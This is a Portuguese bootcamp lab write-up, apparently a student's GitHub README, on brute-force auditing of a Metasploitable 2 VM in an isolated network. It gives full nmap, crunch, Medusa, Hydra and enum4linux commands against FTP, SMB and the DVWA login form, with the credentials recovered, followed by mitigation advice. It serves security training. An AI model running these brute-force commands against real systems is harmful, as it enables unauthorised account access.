 # dio-santander-medusa-lab
🔐 Projeto: Auditoria de Força Bruta com Medusa & Hydra

Bootcamp Santander 2025 | DIO — Cibersegurança e Pentest Ético

🧭 1. Preparação do Ambiente

Data: ‎12‎/‎10‎/‎2025 — 20:51:21
Snapshot: criado antes dos testes (scan rápido e completo)
Alvo: 192.168.56.101 (Metasploitable 2)
Atacante: Kali Linux
Rede: Host-Only no VirtualBox

🔎 2. Reconhecimento Básico

Comando:

nmap -sC -sV -oN nmap_rapido.txt 192.168.56.101


Principais portas identificadas:

21/tcp    open  ftp         vsftpd 2.3.4
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
53/tcp    open  domain      ISC BIND 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp  open  postgresql  PostgreSQL 8.3.x
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1

🔍 3. Reconhecimento Completo

Comando:

nmap -A -p- -oN nmap_completo.txt 192.168.56.101


Destaques importantes:

FTP anônimo habilitado (Anonymous FTP login allowed)

SSH ativo (OpenSSH 4.7p1)

Serviço SMB vulnerável (Samba 3.0.20-Debian)

HTTP (DVWA e Tomcat 5.5) expostos

MySQL, PostgreSQL e IRC abertos

🟢 Vulnerabilidades acionáveis:

Login anônimo FTP → acesso direto sem credenciais

Samba sem assinatura → suscetível a força bruta SMB

DVWA exposta → alvo ideal para ataque de formulário web

🧾 4. Wordlists Criadas

Arquivo: /home/kali/Desktop/wordlist/

Nome	Tamanho	Origem
rockyou.txt	133.4 MB	/usr/share/wordlists/rockyou.txt
gmsfox6.txt	6.7 MB (1 M senhas)	Gerado com crunch 6 6 0123456789
user2.txt	4 KB	Criado manualmente (user, msfadmin, admin, root)
password2.txt	4 KB	Criado manualmente (123456, password, qwerty, msfadmin)

Comandos usados:

cp /usr/share/wordlists/rockyou.txt /home/kali/Desktop/wordlist
crunch 6 6 0123456789 -o gmsfox6.txt
echo -e "user\nmsfadmin\nadmin\nroot" > user2.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > password2.txt

💥 5. Desafio A — Ataque de Força Bruta em FTP (Medusa)

Comando executado:

medusa -h 192.168.56.101 -U /home/kali/Desktop/wordlist/user2.txt -P /home/kali/Desktop/wordlist/password2.txt -M ftp | tee /home/kali/Desktop/wordlist/reports/ftp_results.txt


Resultado:

ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]


Validação manual:

ftp 192.168.56.101
# Login: msfadmin
# Password: msfadmin
230 Login successful.


✅ Acesso confirmado via FTP.

🌐 6. Desafio B — Força Bruta em Formulário Web (DVWA)

Comando:

hydra -l admin -P /home/kali/Desktop/wordlist/password2.txt 192.168.56.101 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=location"


Saída:

[80][http-post-form] host: 192.168.56.101   login: admin   password: qwerty
[80][http-post-form] host: 192.168.56.101   login: admin   password: msfadmin
[80][http-post-form] host: 192.168.56.101   login: admin   password: 123456
[80][http-post-form] host: 192.168.56.101   login: admin   password: admin
[80][http-post-form] host: 192.168.56.101   login: admin   password: password


Acesso bem-sucedido:

URL: http://192.168.56.101/dvwa/login.php

Usuário: admin
Senha: password

🧱 7. Desafio C — Enumeração e Password Spraying em SMB

Enumeração:

enum4linux -a 192.168.56.101 | tee enum4linux.txt


Resumo dos achados:

Workgroup: WORKGROUP

Servidor Samba: 3.0.20-Debian

Usuários detectados: root, ftp, postgres, msfadmin, daemon, mysql, www-data, etc.

Shares acessíveis:

tmp → acesso permitido

opt, print$, ADMIN$ → acesso negado

Ataque SMB (Medusa):

medusa -h 192.168.56.101 -U /home/kali/Desktop/wordlist/user2.txt -P /home/kali/Desktop/wordlist/password2.txt -M smbnt


Resultado:

ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]


Validação:

smbclient -L //192.168.56.101/ -U msfadmin


Shares acessíveis:

print$     Disk
tmp        Disk
opt        Disk
ADMIN$     IPC
msfadmin   Disk (Home Directory)


✅ Acesso SMB confirmado via msfadmin:msfadmin

🛡️ 8. Recomendações de Mitigação
Serviço	Risco	Medidas de Mitigação
FTP	Acesso anônimo e senhas fracas	Desativar FTP, usar SFTP, implementar fail2ban, forçar políticas de senha forte
DVWA / Web	Falta de proteção contra brute-force	Adicionar CAPTCHA, MFA, bloquear tentativas excessivas e armazenar senhas com hash
SMB	Senhas fracas e SMBv1 habilitado	Atualizar para SMBv3, bloquear SMBv1, implementar bloqueio de tentativas e senhas fortes
📚 9. Conclusão

Este laboratório simulou um cenário de ataque ético completo, explorando vulnerabilidades comuns de autenticação.
O aprendizado incluiu:

Uso prático de Medusa e Hydra

Enumeração com Nmap e Enum4linux

Identificação de credenciais fracas e serviços vulneráveis

Documentação técnica e mitigação de riscos

Todos os testes foram realizados em ambiente controlado e isolado (VirtualBox host-only).
Repositório com desafios, anotações e projetos desenvolvidos durante o bootcamp Santander 2025 na DIO.

